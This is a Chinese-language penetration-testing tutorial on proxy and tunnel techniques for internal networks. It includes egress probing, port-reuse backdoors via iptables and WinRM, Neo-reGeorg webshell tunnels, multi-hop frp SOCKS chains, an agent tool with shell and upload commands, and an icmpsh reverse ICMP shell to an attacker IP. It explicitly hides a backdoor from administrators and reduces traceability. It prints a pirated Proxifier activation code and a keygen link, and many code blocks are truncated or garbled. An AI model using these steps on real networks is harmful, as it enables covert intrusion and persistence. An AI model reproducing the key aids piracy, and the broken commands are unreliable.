代理与隧道
在进行渗透测试以及攻防演练的时候，通常会存在各种边界设备、软硬件防火墙、IPS等设备来检测外部连接情况，这些设备如果发现异常，就会对通信进行阻断。当拿到某网络主机的权限，发现无法将流量或者权限发送出来，对渗透造成了很大的影响，所以内网渗透必须需要了解到两个技术知识，代理与隧道技术。
代理技术解决的问题：代理简单来讲解决网络之间的通信问题，如内网与外网之间或者两者自己之间的通信，两个不同内网的通信就必须借助到代理，否则无法通讯。实际场景上来说，外网机被拿下之后，可将外网机作为攻击机的代理，访问内网。
隧道技术解决的问题：简单来讲就是解决流量无法发送，隧道技术多用来绕过一些安全设备的监控，如防火墙过滤问题，网络连接通讯问题，数据回链封装问题，对我们发送的流量进行了拦截，这个时候需要接触隧道技术绕过拦截，隧道技术就是使用不同的协议把走不通的路走通。走不同的协议技术建立通讯，可以说是其中也包括了一些代理的技术。实际上的场景，某一个协议被防火墙流量拦截，可尝试走其他出网协议通信。
常见网络架构
了解web网站之间的架构和相关协议，能让你更好的的对代理和隧道技术的运用有更深的认知，这是前置知识
第一种情况：网站用的是云服务器，只有一个 IP 地址，并且是真实网站 ip 地址。ping域名即拿到真实服务器ip
第二种情况：网站套了cdn，ping出来的不是真实ip地址。通过网站域名解析得到的 ip 地址都是 CDN 的地
址，并不是 web 服务器真实的 ip 地址。
在线网站CDN检测工具，可以通过分布在全球的20余个服务器节点对指定网站进行IP检测，判断该网站是否部署在CDN上。 - UU在线工具 (uutool.cn)

第三种情况：web采用了 Nginx 反向代理，并不知道网站服务器的真实 ip 地址
通过采用 Nginx 代理服务器来转发流量，可以很好的隐蔽真实的网站服务器。我们通过 ping 只可以得到 nginx 服务器的 ip 地址，但是这并不是真正网站服务器的 ip 地址，真正服务器隐藏在 nginx 代理服务器之后。并且网站也可以通过 Nginx 代理服务器来基于不同端口转发和负载均衡。
拓扑图如下:


nginx 根据请求的页面的不同后缀(.php .jsp等)，来转发给不同的端口进行解析。
具体情况具体判断，也有nginx服务器即也是web服务器的情况。比如同一服务器，nginx起一个80服务，tomcat启动一个8080的服务直接转发到本机的端口上。
第四种情况：web网站通过 NAT 映射，我们并不能知道网站服务器真实的ip地址
这种情况大多数是属于稍微大型的企业用户，拥有自己的机房。位于内网 DMZ 区的服务器通过 NAT 映射到公网地址。这时，我们通过 ping 得到的 ip 地址是企业位于公网处的 ip 地址，并不是真实的 ip 地址。
什么是DMZ区域，DMZ区域的作用与原理 - airoot - 博客园 (cnblogs.com)

更大型的企业，出口处有几个运营商，提供热备份和负载均衡。这时，我们通过域名查询 ip 地址可以找到 3 个 ip 地址。但是这 3 个 ip 地址都是出口处运营商的 ip地址，并不是真正的 web 服务器的 ip 地址，真正的 web 服务器在内网中
热备份、温备份、冷备份(Hot/Warm/Cold Backup)_热备 冷备 温备-CSDN博客

web网站出网探测
第一种情况：禁止出站 IP
如果目标主机设置了严格的策略，只允许主动连接公网指定的 IP。这样的话，就没办法反弹 shell 了
第二种情况：禁止出站端口
如果防火墙上做了限制，只允许该服务器访问特定端口。那么，这样的话，我们就必须得找到允许访问的端口了。一般来说，如果目标是限制的出站端口，那么允许出站端口大概率是 80、443、8080、8443、8090 之类的 web 端口，但是也有可能是高范围端口。
Linux 探测shell脚本
1 | for i in {440..449}; do |

在192.168.88.185这台主机开台web服务。

写入文本
1 | for i in {440..449}; do |
nmap 探测命令
1 | nmap -sT -Pn -p- -v www.baidu.com |
fscan探测
1 | fscan -h 182.61.200.6 -p 1-65535 |
masscan探测
1 | masscan -p 80,443,8000-9000 182.61.200.6 --rate=10000 |
禁止出站协议
先探测目标机器允许哪些协议出公网。
探测icmp出网
ping命令，或者使用tcpdump icmp命令。tcpdump linux自带命令
服务端使用tcpdump icmp。客户端ping服务端的时候。就会有响应包

探测DNS协议出网
Windows：nslookup、ping命令
1 | Linux：nslookup、dig、ping命令 |
通过判断能否将域名解析为 ip，判断 DNS 协议是否出网。也可以将域名换成dnslog 的域名，再看 dnslog 能否收到请求
nslookup www.baidu.com

dig命令探测

dnslog接受到信息

探测HTTP协议
1 | Linux 系统可以使用 curl 命令： |

端口映射
一、什么端口映射？
**端口映射：**端口映射就是将内网中的主机的一个端口映射到外网主机的一个端口，提供相应的服务。当用户访问外网IP的这个端口时，服务器自动将请求映射到对应局域网内部的机器上。
比如：
我们在内网中有一台Web服务器，但是外网中的用户是没有办法直接访问该服务器的。于是我们可以在路由器上设置一个端口映射，只要外网用户访问路由器ip的80端口，那么路由器会把自动把流量转到内网Web服务器的80端口上。并且，在路由器上还存在一个Session，当内网服务器返回数据给路由器时，路由器能准确的将消息发送给外网请求用户的主机。在这过程中，路由器充当了一个反向代理的作用，他保护了内网中主机的安全。
端口转发
端口转发（Port forwarding），有时被叫做隧道，是安全壳（SSH） 为网络安全通信使用的一种方法。比如，我们现在在内网中，是没有办法直接访问外网的。但是我们可以通过路由器的 NAT 方式访问外网。假如我们内网现在有 100 台主机，那么我们现在都是通过路由器的这一个公网 IP 和外网通信的。那么，当互联网上的消息发送回来时，路由器是怎么知道这个消息是给他的，而另外消息是给你的呢？这就要我们的 ip 地址和路由器的端口进行绑定了，这时，在路由器中就会有一个内网 ip 和路由器端口对应的一张表。当路由器的 10000 端口收到消息时，就知道把消息发送给他，而当 20000 端口收到消息时，就知道把消息发送给你。这就是端口转发，其转发一个端口收到的流量，给另一个主机，后面的SSH隧道，以及各大隧道代理工具多少涉及到端口转发。还有一些如lcx，portmap，iox工具等等
内网穿透
由于内网IP地址无法直接通过互联网的方式进行访问，但在实际场景中我们又希望我们部署在内网的服务可以通过互联网的方式进行访问，这时我们就可以利用“内网穿透”的方式来将计算机的内部IP转化为公网IP，在互联网侧直接访问内网主机中的服务，像这种方式我们称之为“内网穿透”。比较典型的工具：Frp，nps等。下面的工具将会涉及到
端口复用
端口复用是指不同的应用程序使用相同端口进行通讯。内网渗透中，搭建隧道时，服务器仅允许指定的端口对外开放。利用端口复用可以将3389或22等端口转发到如80端口上。在这种被限制的情况下，考虑端口复用。端口复用可以更好地隐蔽攻击行为。
如果外网服务器只允许 80 端口的流量进入。但是目标主机 22 端口只对内开放，所以必须得利用 80 端口做端口复用连接。
Linux 利用 iptables 做端口复用
iptables前置知识
最基本要学习一下，iptables的五链四表以及相关命令
iptables防火墙理论清晰解释（四表、五链、流程图文并茂）学习不能忘！！！_防火墙的四表五连图-CSDN博客
iptables的四表五链与NAT工作原理 - 知乎 (zhihu.com)
根据源地址做端口复用
1 | 实验环境：kali攻击机：192.168.88.185 web外网服务器ubuntu:192.168.88.141 |
-t nat：指定使用nat表。-A PREROUTING：在PREROUTING链中添加规则。-p tcp：指定协议为TCP。-s 192.168.88.185：匹配源地址为192.168.88.185的数据包。--dport 80：匹配目标端口为80的数据包。-j REDIRECT --to-port 22：将匹配的数据包重定向到端口22。

根据源地址源端口做端口复用
1 | ubuntu执行： |

socat -d -d TCP-LISTEN:44444,fork,reuseaddr TCP:192.168.88.141:80,sourceport=33333
-d -d：启用调试模式，显示详细的调试信息。TCP-LISTEN:44444：在本地监听44444端口，等待TCP连接。fork：当有新的连接时，使用fork模式处理连接，即每个新连接都会派生一个新的进程进行处理。reuseaddr：允许在绑定地址时重用已经处于TIME_WAIT状态的socket地址。TCP:192.168.88.141:80：建立到远程主机192.168.88.141的80端口的TCP连接。sourceport=33333：将本地的33333作为源端口。
该方法不支持多连接，本地的 33333 端口已经被第一个 SSH 连接占用了。并且这样做需要连接的机器拥有单独的公网 ip
利用 ICMP 协议做遥控开关
1 | 除了ping命令以上都在192.168.88.141机子上完成 |

利用 TCP 协议做遥控开关
1 | #创建复用链子 |

学习参考：https://cloud.tencent.com/developer/article/1937107
Windows 利用 WinRM 实现端口复用打造隐蔽后门
WinRM介绍
WinRM是Windows Remote Managementd（Windows远程管理）的简称。它基于Web服务管理(WebService-Management)标准，WinRM2.0默认端口5985（HTTP端口）或5986（HTTPS端口）。如果所有的机器都是在域环境下，则可以使用默认的5985端口，否则的话需要使用HTTPS传输(5986端口)。使用WinRM我们可以在对方有设置防火墙的情况下远程管理这台服务器，因为启动WinRM服务后，防火墙默认会放行5985端口。WinRM服务在Windows Server 2012以上服务器自动启动。在WindowsVista上，服务必须手动启动。WinRM的好处在于，这种远程连接不容易被察觉到，也不会占用远程连接数！
WinRM端口复用原理
该端口复用的原理是使用Windows的远程管理服务WinRM，结合 HTTP.sys 驱动自带的端口复用功能，一起实现正向的端口复用后门。
关于WinRM服务，传送门：WinRM远程管理工具的使用
而HTTP.sys驱动是IIS的主要组成部分，主要负责HTTP协议相关的处理，它有一个重要的功能叫Port Sharing(端口共享)。所有基于HTTP.sys驱动的HTTP应用都可以共享同一个端口，只需要各自注册的URL前缀不一样。而WinRM就是在HTTP.sys上注册了 wsman 的URL前缀，默认监听 5985端口。因此，在安装了IIS的Windows服务器上，开启WinRM服务后修改默认监听端口为80或新增一个80端口的监听即可实现端口复用，通过Web端口登录Windows服务器。
使用 netsh http show servicestate 命令可以查看所有在 HTTP.sys 驱动上注册过的URL前缀。

Windows Server 2012以上的服务器操作系统中，WinRM服务默认启动并监听了5985端口。如果服务器本来就监听了80和5985端口，则所以我们既需要保留原本的5985监听端口，同时需要新增Winrm监听80端口。这样的话，WinRM同时监听80和5985端口。既能保证原来的5985端口管理员可以正常使用，我们也能通过80端口远程连接WinRM。

1 | winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"} |

1 | 查看WinRM状态 |

修改WinRM默认监听的端口
如果该计算机上原本没有开启WinRM服务的话，则需要将WinRm端口监听端口修改为80端口。不然管理员看到该机器开起来5985端口的话，肯定会起疑心。
1 | 快速启动WinRM |

查看netstat -ano ，发现没有默认5985端口
远程连接WinRM
本地需要连接WinRM服务时，首先也需要配置启动WinRM服务。如果是工作组环境的话，还需要设置信任连接的主机，执行以下两条命令即可。
1 | winrm quickconfig -q |

工具使用 | WinRM远程管理工具的使用-腾讯云开发者社区-腾讯云 (tencent.com)
红蓝对抗 | Windows利用WinRM实现端口复用打造隐蔽后门-腾讯云开发者社区-腾讯云 (tencent.com)
代理技术
代理实际上指的就是代理服务器，英文叫作proxy server，它的功能是代理网络用户去取得网络信息。形象地说，它是网络信息的中转站。在我们正常请求一个网站时，是发送了请求给Web服务器，Web服务器把响应传回给我们。如果设置了代理服务器，实际上就是在本机和服务器之间搭建了一个桥，此时本机不是直接向Web服务器发起请求，而是向代理服务器发出请求，请求会发送给代理服务器。
然后由代理服务器再发送给Web服务器，接着由代理服务器再把Web服务器返回的响应转发给本机。这样我们同样可以正常访问网页，但这个过程中Web服务器识别出的真实IP就不再是我们本机的IP了，就成功实现了IP伪装，这就是代理的基本原理。
正向代理
简单的说，就是客户端主动向代理发送一个请求，然后代理向服务器请求并将获取的内容返回给客户端。渗透当中适用场景。内网中的其他机器是不允许来自外网机器的访问的。这时候，我们可以将这台外网服务器设置成为代理，使得我们自己的攻击机可以直接访问与操作内网中其他机器。也就是出网被限制的情况。

Neo-reGeorg代理工具
Neo-reGeorg是常见的http正向隧道工具，是reGeorg工具的升级版。增加了很多特性，例如像内容加密、避免被检测、请求头定制、响应码定制、支持py3等等
下载地址：https://github.com/L-codes/Neo-reGeorg
特点
• 传输内容经过变形 base64 加密，伪装成 base64 编码
• 直接请求响应可定制化 (如伪装的 404 页面) • HTTP Headers 的指令随机生成，避免特征检测
• HTTP Headers 可定制化
• 自定义 HTTP 响应码
• 多 URL 随机请求
• 服务端 DNS 解析
• 兼容 python2 / python3
• 服务端环境的高兼容性
• (仅 php) 参考 https://github.com/sensepost/reGeorg 实现单 Session
创建多 TCP 连接，应对部分负载均衡场景
• aspx/ashx/jsp/jspx 已不再依赖 Session，可在无 Cookie 等恶劣环境正常运行。支持内网转发，应对负载均衡环境
在服务端生成代理脚本,key最好高强度
1 | python3 neoreg.py generate -k sdsd |
会创建 neoreg_servers 目录并在该目录下生成如下代理脚本
然后只需要将对应语言的脚本上传到目标 web 目录下，访问如下，说明 ok

然后使用 neoreg.py 执行如下命令连接代理文件，该命令运行成功后，会在本地建立 socks 代理，并且监听 1080 端口
python3 neoreg.py -l 0.0.0.0 -p 1080 -k sdsd -u http://www.test.com/tunnel.php

配合Proxifier或者SocksCap64.exe使用即可，这里展示使用cmd和火狐演示
cmd设置代理，这里选择第一个
1 | set https_proxy=socks5://127.0.0.1:1080pro |
设置代理后只对当前命令窗口生效，重新打开CMD需要再次设置代理。
参考：[windows CMD和Linux终端设置代理_windows设置socks cmd-CSDN博客](https://blog.csdn.net/yimisiyang/article/details/104010989#:~:text=在CMD窗口输入如下指令设置代理： set,http_proxy%3Dsocks5%3A%2F%2F127.0.0.1%3A1080 set https_proxy%3Dsocks5%3A%2F%2F127.0.0.1%3A1080)
然后curl www.baidu.com,显示内容代表正向代理成功

火狐配合此插件即可

Neo-reGeorg支持自定义页面和响应码，自定义的页面跟py同一目录，相关参数命令
1 | python3 neoreg.py generate -k sdsd --file 404.html --httpcode 404 |
ABPTTS
一款基于 SSL 加密的 HTTP 端口转发工具，全程通信数据加密，比 reGerog 都要稳定。使用 python2 编写，但是该工具只支持 aspx 和 jsp 脚本的网站。TCP流量通过HTTP/HTTPS进⾏流量转发的⼯具项目地址：https://github.com/nccgroup/ABPTTS
执行如下命令，会在 ABPTTS 目录下生成 webshell 目录
客户端做了http端口转发，访问服务端的3389就是访问了客户端的3389，走的http协议
1 | 服务端：python2 abpttsfactory.py -o webshell |
这里没环境就不展示了
reDuh
仓库地址：https://github.com/sensepost/reDuh，这类工具很多
具体参考：https://blog.csdn.net/wsnbbz/article/details/104917606
proxychains代理链
1 | proxychains-ng 项目地址https://github.com/rofl0r/proxychains-ng.git |
Centos下的安装https://blog.csdn.net/holyvslin/article/details/132885252
Ubuntu下的安装 https://cloud.tencent.com/developer/article/1157554
安装proxychains4 kali上自带，debian版本apt-get install proxychains4
删除命令：apt-get autoremove proxychains
那我们用kali自带的。proxychains4配置文件在 /etc/proxychains4.conf

用法实例：proxychains4 nmap -sT -Pn -p 80,445 10.211.55.7
验证：proxychains4 curl www.google.com

需要注意的是，使用 nmap 挂代理扫描端口的时候，需要加参数 -sT -Pn
Proxifier的使用
类似的还有SOCKSCAP。
安装Proxifier，我们用的经典汉化3.1版本，激活码如下
1 | 5EZ8G-C3WL5-B56YG-SCXM9-6QZAP |
配置文件，新建代理并检查可不可用。


转发至7890端口

Proxifier+bp抓包微信小程序
设置好代理服务器，走https 127.0.0.1:8080，不是8080也可以，你bp设的什么抓包就设置什么

在代理规则上设置微信的小程序相关的WeChatApp.exe，让他走代理，其余的不相关的直连direct，即不走代理

1 | WeChatAppEx.exe;WechatBrowser.exe |

vmare虚拟机出网流量全部走代理
vmare相关虚拟机和流量全部走你的 Proxifier隧道，隧道在连着clash的代理端口。虚拟机可走代理
配置两个代理规则。


1 | 应用上复制上，然后走你代理的端口 |
kali在没有配置任何的东西下直接开机访问均可访问

一定程度上可减少被溯源的概率，参考：https://mp.weixin.qq.com/s/5KHhVl9ItgDvsO3eQov9tA
https://www.cnblogs.com/wushiyiwuzhong/p/17809020.html Proxifier新版注册，有熟练度用英文版吧
https://github.com/y9nhjy/Proxifier-Keygen Proxifier注册机
clash+bp抓微信小程序
其实clash也可以做正代走隧道，只不过自己写yaml配置，这里放个微信小程序走clash隧道的yaml，上面抓不了可以试试这种
网上pc端抓小程序bp+Proxifier，bp+Clash一样可以。编辑好yaml导入配置
proxies: - name: Whistle type: http server: 127.0.0.1 port: 8080 proxy-groups: - name: Proxy proxies: - Whistle type: select rules: - PROCESS-NAME,WeChatAppEx.exe,Whistle - PROCESS-NAME,WeChat.exe,Whistle - PROCESS-NAME,WechatBrowser.exe,Whistle - MATCH,DIRECT1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
<img src="image-20240827205805581.png" alt="image-20240827205805581" style="zoom:80%;" />
抓不到包的确保有没有Proxifier在影响？
参考：https://mp.weixin.qq.com/s/gvKpiUdRaQZ1YrqUFP2bIA
### 配置解释
1. **`proxies`**:
- `name`: 代理的名称（例如 `Whistle`）。
- `type`: 代理的类型，可更改为 `socks5`等。
- `server`: 代理服务器的地址（例如 `127.0.0.1`）。
- `port`: SOCKS5 代理服务器的端口（例如 `1080`，请根据实际情况调整）。
2. **`proxy-groups`**:
- `name`: 代理组的名称（例如 `Proxy`）。
- `type`: 选择类型的代理组，这里选择了 `select`，用户可以选择不同的代理。
- `proxies`: 代理组中包含的代理列表（在此示例中，只有一个代理 `Whistle`）。
3. **`rules`**:
- `PROCESS-NAME`: 规则根据进程名称匹配并将流量转发到指定代理（`Whistle`）。
- `MATCH`: 匹配所有未被其他规则匹配的流量，这里设置为 `DIRECT`，表示不使用代理直接访问。
涉及到微信相关运行程序就会走127.0.0.1:8080，配合bp抓包。比Proxifier好一点
涉及到多条链式代理，将代理A作为代理B的上游代理，通过配置代理B的规则和策略路由来间接实现代理链的效果。总的来说不如上面那两个方便，主要是要写配置远没有图形化快。因为本就不是链式代理的思想设计，属于节点类
**上游（Upstream）**:
- **定义**: 上游指的是一个代理节点将数据发送到另一个代理节点的过程。在这个过程中，数据流动的方向是从当前节点传递到下一个节点。
- **作用**: 上游节点通常用于将流量转发到另一个节点或代理，以实现更复杂的代理链或路由功能。例如，一个节点可以配置为将请求转发到另一个节点进行处理，这样第一个节点作为上游节点，第二个节点作为下游节点。
**下游（Downstream）**:
- **定义**: 下游指的是接收数据并处理的过程。在数据流动中，下游节点是最终处理或转发数据的节点。
- **作用**: 下游节点是数据流经过的最后一站，它负责实际的数据处理或最终转发。下游节点可以是最终的目标服务器或另一个代理节点。
[Socks代理和HTTP代理有什么区别？怎么选？ - 个人文章 - SegmentFault 思否](https://segmentfault.com/a/1190000044837094)
[代理模式：全局 规则 直连 脚本四种模式的区别_代理模式 全局 规则 直连-CSDN博客](https://blog.csdn.net/qq_61504864/article/details/137371350)
#### SOCKS隧道代理
Socks是Socket Secure的缩写，其是一种工作在OSI七层模型中的第五层网络会话层协议，Socks主要的作用是代表客户端将任何协议或者任何程序产生的任何类型的流量路由到服务器上，以此来将本地和远端两个系统连接起来。
由于Socks其处于第七层和第四层模型之间，因此socks可以支持HTTP、HTTPS、FTP、SSH、FTP等多种协议，Socks从版本上来讲，又可分为socks4和socks5这两种版本，目前socks协议最新版本为socks5，socks4和socks5这两者版本最主要的区别是socks4仅支持TCP代理，不支持UDP代理以及各种验证协议，socks5不仅支持TCP/UDP代理以及各种[身份验证](https://cloud.tencent.com/product/mfas?from_column=20065&from=20065)协议的同时，还会通过身份验证建立完整的TCP 连接，并使用Secure Shell (SSH) 加密隧道的方法来中继流量，在红蓝攻防对抗中，我们经常会利用Socks5来建立通信隧道以此来访问远程核心靶标系统中的内部网络。
参考：https://cloud.tencent.com/developer/article/2388466
### 反向代理
和正向代理相反，攻击机 只向 proxy 发送普通的请求，具体让他转到哪里，proxy 自己判断，然后将返回的数据递交回来，这样的好处就是在某些防火墙只允许 数据进出的时候可以有效的进行穿透。Nginx 就是性能非常好的反向代理服务器，它可以用来做负载均衡。

两者的区别
正向代理是我们自己客户端通过proxy代理找服务端，反向代理是服务端主动通过proxy找客户端
用途差异
• 正向代理的典型用途是为在防火墙内的局域网客户端提供访问 Internet 的、途径。正向代理还可以使用缓冲特性减少网络使用率；
• 反向代理的典型用途是将防火墙后面的服务器提供给 Internet 用户访问。反向代理还可以为后端的多台服务器提供负载平衡，或为后端较慢的服务器提供缓冲服务。
• 另外，反向代理还可以启用高级 URL 策略和管理技术，从而使处于不同web 服务器系统的 web 页面同时存在于同一个 URL 空间下。
安全差异
• 正向代理允许客户端通过它访问任意网站并且隐藏客户端自身，因此必须采取安全措施以确保仅为经过授权的客户端提供服务；
• 反向代理对外都是透明的，访问者并不知道自己访问的是一个代理。
## 隧道协议
隧道技术（Tunneling）是一类网络协议，它是一种数据包封装技术，它将原始IP包（其报头包含原始发送者和最终目的地）封装在另外一个数据包（称为封装的IP包）的数据净荷中进行传输，使用隧道的原因是在不兼容的网络上传输数据，或在不安全网络上提供一个安全路径，隧道协议通常（但并非总是）在一个比负载协议还高的层级或同一层。
隧道解决了什么问题？
隧道主要就是为了解决数据包无法传输，隧道技术一般用来绕过一些安全设备的监控，例如防火墙过滤，网络连接通讯，数据回链封装等，如果安全防护设备对我们发送的流量进行拦截，我们就可以使用隧道技术来绕过拦截，隧道技术就是使用不同的协议技术来建立通讯连接,当然，在隧道中也是包含了一些关于代理的技术。
OSI七层相关协议，注意协议是向下兼容，TCP协议被禁用了，基于TCP协议的HTTP/S协议也将不能用。
Socks4属于会话层，基于tcp，socks5即可以TCP也可以UDP


应用层：SSH隧道、HTTP/S隧道、DNS隧道
传输层：TCP隧道、UDP隧道
网络层：IPv6隧道、ICMP隧道
1 |
|
./frps verify -c ./frps.ini
./frpc verify -c ./frpc.ini
在使用之前，可以先执行命令校验配置文件中的语法是否正确。
1 |
|
服务端配置
[common]
bind_addr = 0.0.0.0
bind_port = 7000
dashboard_addr = 0.0.0.0
dashboard_port = 7001
dashboard_user = root
dashboard_pwd = 123456
token = mibaihu
客户端
[common]
server_addr = 120.25.195.29
server_port = 7000
token = mibaihu
pool_count = 5
health_check_type = tcp
health_check_interval_s = 100
[test]
remote_port = 12345
plugin = socks5
use_encryption = true
use_compression = true
plugin_user = admin
plugin_passwd = 123456
remote_port = 12345：指定 FRP 服务器上的端口。客户端的流量会被转发到这个端口。
plugin = socks5：指定插件类型为 SOCKS5 代理。
use_encryption = true：启用加密。设置为 true 表示启用流量加密。
use_compression = true：启用压缩。设置为 true 表示启用流量压缩。
plugin_user = admin：指定 SOCKS5 代理插件的用户名。
plugin_passwd = 123456：指定 SOCKS5 代理插件的密码。
1 |
|
服务端： ./frps -c frps.ini
客户端： ./frpc -c frpc.ini
1 |
|
RDP服务端
[common]
bind_addr = 0.0.0.0
bind_port = 7000
dashboard_addr = 0.0.0.0
dashboard_port = 7001
dashboard_user = root
dashboard_pwd = 123456
token = mibaihu
RDP客户端
[common]
server_addr = 你的vps
server_port = 7000
token = miabihu
[RDP]
local_ip = 127.0.0.1
local_port = 3389
remote_port = 3389
配置成功使用vps地址：3389连接就是内网机的3389服务
ssh服务端选择跟上面的一样
ssh客户端
[common]
server_addr = 你的vps
server_port = 7000
token = miabihu
[SSH]
local_ip = 127.0.0.1
local_port = 22
remote_port = 2222
ssh -p 2222 root@你的vps地址 即可以访问内网的ssh服务
frp映射什么服务，可以参考上面仿写
1 |
|
配置如下
服务端
[common]
bind_addr = 0.0.0.0
bind_port = 7000
dashboard_addr = 0.0.0.0
dashboard_port = 7001
dashboard_user = root
dashboard_pwd = 123456
token = mibaihu
客户端
[common]
server_addr = 120.25.195.29
server_port = 7000
token = mibaihu
[HTTP]
type = tcp
local_ip = 127.0.0.1
local_port = 80
remote_port = 80
custom_domains= www.test.com
1 |
|
三层内网
边界外网机 Ubuntu1 192.168.88.154 10.10.10.137 （能通外网）
win12-1 10.10.10.134 10.10.10.20.128
win12-2 10.10.20.129 10.10.30.128
ubuntu2 10.10.30.129 10.10.40.128
注意：192.168.88.154能通外网，其他网段不能
1 |
|
服务端配置
[common]
bind_addr = 0.0.0.0
bind_port = 7000
dashboard_addr = 0.0.0.0
dashboard_port = 7001
dashboard_user = root
dashboard_pwd = 123456
token = mibaihu
客户端
[common]
如果tls_enable为true，则frpc将通过tls连接frps。否则可能运行不起来
tls_enable = true
server_addr = 120.25.195.29
server_port = 7000
[plugin_socks]
type = tcp
remote_port = 7777
plugin = socks5
nohup ./frpc -c ./frpc.ini >/dev/null 2>&1 &
让进程在后台执行，在终端可以执行其他操作
window端是这样
start /b frpc.exe -c frpc.ini
1 |
|
Ubuntu服务端
[common]
bind_addr = 10.10.10.137
bind_port = 7000
token= mibaihu
Ubuntu客户端
[common]
tls_enable = true
server_addr = 120.25.195.29
server_port = 7000
token= mibaihu
[http_proxy]
type = tcp
remote_port = 7777
#plugin = socks5，不能加上这个
#相较于一级代理，增加如下两个配置
local_ip = 10.10.10.137
local_port = 7777
1 |
|
[common]
server_addr = 10.10.10.137
server_port = 7000
token= mibaihu
[http_proxy]
type = tcp
remote_port = 7777
plugin = socks5
1 |
|
服务端
[common]
#ip都是设置为下层网络的ip
bind_addr = 10.10.20.128
bind_port = 7000
token= mibaihu
客户端
[common]
server_addr = 10.10.10.137
server_port = 7000
token= mibaihu
[http_proxy]
type = tcp
remote_port = 7777
#plugin = socks5
local_ip = 10.10.20.128
local_port = 7777
1 |
|
[common]
server_addr = 10.10.20.128
server_port = 7000
token= mibaihu
[http_proxy]
type = tcp
remote_port = 7777
plugin = socks5
1 |
|
这是会话的基本命令，此处进行了汉化
help：显示帮助信息。
exit：退出工具。
show：显示网络拓扑。
getdes：查看目标节点的描述。
setdes [info]：为目标节点添加描述。
goto [id]：选择目标节点。
listen [lport]：在目标节点上监听指定端口。
connect [rhost] [rport]：通过目标节点连接到新节点。 // connect 10.211.55.7 9999
sshconnect [user@ip:port] [dport]：通过 SSH 隧道连接到新节点。 // sshconnect root@10.211.55.15:22 6666
shell：在目标节点上启动交互式 Shell。
upload [local_file] [remote_file]：将文件上传到目标节点。//upload /tmp/test.txt C:\test.txt
download [remote_file] [local_file]：从目标节点下载文件。 // download C:\test2.txt /tmp/test2.txt
socks [lport]：启动一个 socks5 服务器。
lforward [lhost] [sport] [dport]：将本地端口转发到远程端口。//lforward 127.0.0.1 8888 8888
rforward [rhost] [sport] [dport]：将远程端口转发到本地端口。//rforward 10.211.55.7 3389 3389
1 |
|
kali攻击机：192.168.88.185
web机ubuntu：192.168.88.154 10.10.10.137
1 |
|
相关命令
goto 1 进入agent节点
shell 进入交互式shell
exit 退出shell
1 |
|
先开启一个web 8000服务，python2 -m SimpleHTTPServer 8000
客户端winserver12使用：agent.exe -lhost 192.168.0.25 -reuse-port 8000
服务端kali使用：./admin_linux_x64 -rhost 192.168.88.142 -rport 8000
1 |
|
攻击端:admin.exe -lport 8888 -passwd mibaihu
web端:agent -rhost 192.168.0.58 -rport 8888 -passwd mibaihu
1 |
|
攻击机ubuntu：120.25.195.29
linux服务器A：192.168.88.154 10.10.10.137 (192.168.88.154能通外网)
window服务器B：10.10.10.136
1 |
|
goto 1 进入服务器的A节点
connect 10.10.10.136 7777 对该服务器B进行连接
建立连接成功，show一下看看就有了两层，有层级关系为1节点连接2节点
1 |
|
appname = nps
#Boot mode(dev|pro)
runmode = dev
#HTTP(S) proxy port, no startup if empty
http_proxy_ip=0.0.0.0
http_proxy_port=80
https_proxy_port=443
https_just_proxy=true
#default https certificate setting
https_default_cert_file=conf/server.pem
https_default_key_file=conf/server.key
##bridge
bridge_type=tcp
bridge_port=7777 //这里是客户端连接的端口，默认为8024，我改成7777
bridge_ip=0.0.0.0
Public password, which clients can use to connect to the server
After the connection, the server will be able to open relevant ports and parse related domain names according to its own configuration file.
public_vkey=123
#Traffic data persistence interval(minute)
#Ignorance means no persistence
#flow_store_interval=1
log level LevelEmergency->0 LevelAlert->1 LevelCritical->2 LevelError->3 LevelWarning->4 LevelNotice->5 LevelInformational->6 LevelDebug->7
log_level=7
#log_path=nps.log
#Whether to restrict IP access, true or false or ignore
#ip_limit=true
#p2p
#p2p_ip=127.0.0.1
#p2p_port=6000
#web
web_host=a.o.com
web_username=admin //服务端web登录默认密码，你可以改
web_password=admin123 //密码最好也不要用默认的
web_port = 8080 //服务端登录的web默认端口
web_ip=0.0.0.0
web_base_url=
web_open_ssl=false
web_cert_file=conf/server.pem
web_key_file=conf/server.key
if web under proxy use sub path. like http://host/nps need this.
#web_base_url=/nps
#Web API unauthenticated IP address(the len of auth_crypt_key must be 16)
#Remove comments if needed
#auth_key=test
auth_crypt_key =1234567812345678
#allow_ports=9001-9009,10001,11000-12000
#Web management multi-user login
allow_user_login=false
allow_user_register=false
allow_user_change_username=false
#extension
allow_flow_limit=false
allow_rate_limit=false
allow_tunnel_num_limit=false
allow_local_proxy=false
allow_connection_num_limit=false
allow_multi_ip=false
system_info_display=false
#cache
http_cache=false
http_cache_length=100
#get origin ip
http_add_origin_header=false
#pprof debug options
#pprof_ip=0.0.0.0
#pprof_port=9999
#client disconnect timeout
disconnect_timeout=60
1 |
|
./npc -server=192.168.88.185:8024 -vkey=6knHfew6 -type=tcp -password=miyao -local_type=secret -local_port=2222
1 |
|
服务端：
wets https://bootstrap.pypa.io/pip/2.7/get-pip.py //下载pip2.7镜像源
python2 get-pip.py //安装
python2 -m pip install //安装对应的模块 impacket
sudo python2 icmpsh_m.py 192.168.88.185 192.168.88.187 //第⼀个IP是VPS的eth0⽹卡IP，第⼆个IP是⽬标机器出⼝的公⽹IP
1 |
客户端：icmpsh.exe -t 192.168.88.185 -d 500 -b 30 -s 128
t 主机ip地址以发送ping请求。这个选项是强制性的！
-r 发送⼀个包含字符串“Test1234”的测试icmp请求，然后退出。
-d 毫秒请求之间的延迟（毫秒）
-o 毫秒响应超时（毫秒）。如果没有及时收到回复，从机将增加空⽩计数器。如果该计数器达到某个极限，从机将退出。
如果收到响应，计数器将设置回0。
-b 空⽩数量限制（退出前未答复的icmp请求）
-s 字节最⼤数据缓冲区⼤⼩（字节）
1 |
|
服务端参数
• -key：设置的密码，默认为 0
• -nolog：不写日志文件，只打印标准输出，默认 0
• -noprint：不打印屏幕输出，默认 0
• -loglevel：日志文件等级，默认 info
• -maxconn：最大连接数，默认 0，不受限制
• -maxprt：server 最大处理线程数，默认 100
• -maxprb：server 最大处理线程 buffer 数，默认 1000
